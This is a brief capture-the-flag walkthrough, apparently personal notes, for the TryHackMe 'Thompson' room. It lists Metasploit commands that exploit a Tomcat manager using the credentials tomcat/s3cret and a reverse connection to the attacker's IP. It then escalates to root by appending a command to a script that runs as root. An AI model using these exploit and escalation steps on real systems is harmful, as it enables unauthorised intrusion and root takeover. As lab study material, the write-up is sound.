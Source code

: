 # Thompson
https://tryhackme.com/room/bsidesgtthompson

8080/tcp open  http    Apache Tomcat 8.5.5

exploit tomcat manager using metasploit 
		
	use exploit/multi/http/tomcat_mgr_upload
	show options
	set RHOST <target ip>
	set RPORT 8080
	set LHOST <your ovpn ip>
	set httpUsername tomcat
	set httpPassword s3cret
	exploit

user shell!

In home dir jack has a file called id.sh, whichs we have to save cmd into this id.sh then its run that cmd as root.
	
	cd /home/jack
	echo "cat /root/root.txt > test.txt" >> id.sh
	cat test.txt

Root flag.....

